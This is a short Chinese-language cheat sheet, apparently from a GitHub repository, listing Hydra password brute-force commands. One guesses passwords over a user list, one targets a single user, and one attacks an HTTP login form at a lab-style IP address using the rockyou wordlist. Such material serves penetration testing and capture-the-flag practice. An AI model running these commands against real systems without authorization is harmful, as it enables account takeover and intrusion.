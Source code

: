# Hydra 实战语句

- 破解列表

```
    sudo hydra -L users.txt -P wordlist.txt
```

- 破解单个

```
    sudo hydra -l "aaa" -P wordlist.txt
```

- WebSite POST 破解

```
sudo hydra -l "key" -P /usr/share/wordlists/rockyou.txt 10.10.10.7 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```